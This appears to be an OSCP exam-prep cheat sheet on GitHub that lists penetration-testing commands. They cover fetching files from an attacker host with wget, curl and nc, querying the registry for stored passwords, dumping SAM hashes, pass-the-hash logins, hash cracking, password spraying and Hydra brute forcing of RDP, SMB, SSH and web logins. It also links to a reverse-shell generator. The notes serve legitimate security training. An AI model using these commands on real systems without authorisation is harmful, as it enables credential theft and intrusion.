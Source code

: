 # OSCP-handytools
- (https://github.com/seal9055/oscp-notes/blob/main/README.md)
- https://github.com/rodolfomarianocy/OSCP-Tricks-2023/tree/main
- https://github.com/Ak500k/oscp-notes?tab=readme-ov-file

# Wordlists
```
/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
/usr/share/seclists/Discovery/Web-Content/common.txt
/usr/share/seclists/Discovery/Web-Content/big.txt
/usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
/usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt
/usr/share/seclists/Fuzzing/LFI/LFI-LFISuite-pathtotest-huge.txt
/usr/share/seclists/Fuzzing/SQLi/Generic-SQLi.txt
```

# Post Exploitation Linux
## File upload
- Starting Web Server
`python3 -m http.server 80`

- Filetransfer
```
wget <LHOST>/<file>
curl http://<LHOST>/<file> -o <output-file>
echo "GET /<file> HTTP/1.0" | nc -n <LHOST> 80 > <out-file> && sed -i '1,7d' <out-file>
```

- Secure Filetransfers
```
on target:  ncat -nvlp <port> --ssl > <out-file>
on kali:  ncat -nv <RHOST> <RPORT> --ssl < <file-to-send>
```

# Passwords
- Use chisel to remotely forward port 445, and use winexe to log in
`winexe -U <user>%<password> //<RHOST> cmd.exe`

- Check for passwords
`reg query HKLM /f password /t REG_SZ /s`
`reg query HKCU /f password /t REG_SZ /s`

- Weak Permissions on Sam Files
`python2 pwdump.py <SYSTEMFILE> <SAMFILE>`

- Cracking the password
`hashcat -m 1000 --force <hash> <wordlist>`

- PTH
`pth-winexe -U '<entire-hash>' //<RHOST> cmd.exe`


# Password Spraying
- Create Password List
`crunchy <length> <length> -t <pw-core>%%%% `

- Spray
`rowbar -b rdp -s <ip>\32 -U users.txt -C pw.txt -n 1`

# Hashcracking
- John
`john --format=<fomrat> --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`

- Hashcat
```
hashcat -m <hashid> -a 0 -o cracked.txt hash.txt /usr/share/wordlists/rockyou.txt -O  
hashcat -m <hashid> -a 0 -o cracked.txt hash.txt /usr/share/wordlists/rockyou.txt -O -r /usr/share/hashcat/rules/best64.rule  
cat pw | hashcat -r/usr/share/hashcat/rules/best64.rule --stdout > wordlist.txt
```

# Bruteforcing
RDP Brute Force - Hydra
`hydra -L /usr/share/wordlists/rockyou.txt t -p "<password" rdp://<IP>`

SMB Brute Force - Hydra
`hydra -L /root/Desktop/user.txt -P /usr/share/wordlists/rockyou.txt <IP> smb`

SSH Brute Force - Hydra
`hydra -l <user> -P /usr/share/wordlists/rockyou.txt ssh://<IP>`

HTTP POST Login Form Brute Force - Hydra
`hydra -l <user> -P /usr/share/wordlists/rockyou.txt <IP> http-post-form "/login.php:user=admin&pass=^PASS^:Invalid Login" -vV -f`

HTTP GET Login Form Brute Force - Hydra
`hydra -l <username> -P /usr/share/wordlists/rockyou.txt -f <IP> http-get /login`

# MISC
SSH Encrypted
`/usr/share/john/ssh2john`

Crack Zip Pw
`fcrackzip -uvDp /usr/share/wordlists/rockyou.txt file.zip`

Tcp Dump
`sudo tcpdump -i tun0 icmp`

Images
- `binwalk <image>`
- `binwalk -Me <image>`

# Tools to make life easier
-> revshell generator
https://www.revshells.com/ 

-> CyberChef
https://gchq.github.io/CyberChef/

-> urlencoder
https://www.urlencoder.org/

-> octal
http://www.unit-conversion.info/texttools/octal/

-> hex
http://www.unit-conversion.info/texttools/octal/

-> IP converter
https://www.silisoftware.com/tools/ipconverter.php
